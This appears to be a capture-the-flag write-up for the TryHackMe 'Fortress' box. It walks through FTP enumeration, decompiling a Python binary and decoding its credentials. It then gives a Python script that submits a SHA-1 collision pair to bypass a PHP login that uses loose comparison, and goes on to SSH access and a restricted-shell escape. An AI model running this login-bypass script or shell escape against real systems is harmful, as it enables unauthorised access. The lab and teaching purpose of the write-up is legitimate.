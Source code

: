 <h3> Fortress TryHackMe </h3>

Difficulty = Medium

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b90c908d-b712-4207-b663-334cf62092b1)

Lets start enumeration from ftp 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/584e61c6-87d3-48cb-bdb3-0d832ee5c27f)

Reading the *marked.txt* file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/de3ab684-1e53-49d5-9494-552336f8eec3)

While checking the file type for the *file* shows it's a python compiled binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e8252502-7679-416a-a5f3-3f21526834b9)

Lets decompile it using [uncompyle2](https://github.com/wibiti/uncompyle2)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d3c64e11-2d32-4558-bc2e-e1bbf94790a0)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/05362c40-c0bf-4158-9aa3-0fe89383676f)

We can see what it does. It creates a socket running on port *5752* and it asks for username and password, If the provided username and password is correct it calls the secret() function which basically opens up the *secret.txt* file

But the username and password is converted from bytes to long I wrote a script to decode it

```python
#!/usr/bin/python3
# Author: Hack.You
from Crypto.Util.number import long_to_bytes

usern = 232340432076717036154994
passw = 10555160959732308261529999676324629831532648692669445488

print(f'Username: {long_to_bytes(usern)}')
print(f'Password: {long_to_bytes(passw)}')
```

Running the script gives the username and password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/071f17a7-1409-409b-b5ac-360259859634)

Now lets connect to the remote socket hosted on port 5752
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d01ccd61-877e-4f5a-8260-2941292587fb)

It gives us this `t3mple_0f_y0ur_51n5`

What can we do with this now 🤔

Lets move over to the web server 

Checking it just shows the normal apache default web page

Fuzzing for directory doesn't lead me anywhere

But when i tried *t3mple_0f_y0ur_51n5* appended with a *.html* gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a1236764-4b54-4f73-be57-aa3958c7c3f9)

But checking source code shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1673f22e-ce94-4e8c-a9c0-9311298b1c52)

Also looking at the style.css file gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a063d1e1-bcc3-4e67-9052-99353b710f23)

When decoded it forms this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/412f1966-bc68-4e97-8b6d-2221e85e5d75)

From here we can tell that we're to do a hash collision since *COLLIDING* was capitalized 

Here's what the php code does:

```
1. It assigns zero of length 6 to the badchar variable
2. It checks for if the username and password is passed via a get parameter
3. It converts them to string which are stored respectively in variable test1 and test2
4. It converts the two test variable to hex which are stored in hex1 and hex2 respectively
5. The first check that is done checks if test1 is equal to test2 then it prints out 'You can\'t cross the gates of the temple, GO AWAY!!
6. The second check is that if the string length of test2 is less than or equal to 500 and the string length of test1 is less than or equal to 600. If it is it prints out some error message
7. The third check, checks if the first occurrence of hex1 is equal to the bad byte or the first occurence of hex2 is equal to the bad bytes and if it is it prints an error message
8. The last check compares the sha1 value of test1 with that of test2 # bug here
```

From this we can tell that the bug is in the fourth check as it doesn't use *===* but rather *==* 

Using this past [writeup](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md) on a ctf I edited the script to work for this box

```python
#!/usr/bin/env python
import requests

name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

url = 'http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(namestr, passwordstr)
resp = requests.get(url)
print(resp.text)
```

Note: I had to use *t3mple_0f_y0ur_51n5.php* cause that's the main page the login is based off

Running the script works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/149f9965-0e07-4090-9c9c-7a822eff1aae)

We can see this new file in the html *m0td_f0r_j4x0n.txt*

Going over there gives an ssh key
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/834d8346-f8d0-4e7b-8999-5f63018039ad)

Lets login to ssh as user *h4rdy* 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5c692abf-0a51-483d-b33c-9dd4a2986c7c)

After loggin in we can tell that we're restricted to command cause we're in a rbash shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1f2f1171-546c-4c2c-b42e-bc6e7950413b)

Quick google research leads [here](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)

Trying it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5f9bfc96-a817-435f-bd59-c881ca2b865b)

But the problem is our path variable is messed up 

Lets fix that 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/888017ab-47ab-4ed3-97f6-e9466f36ce20)

```
Command: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH
```
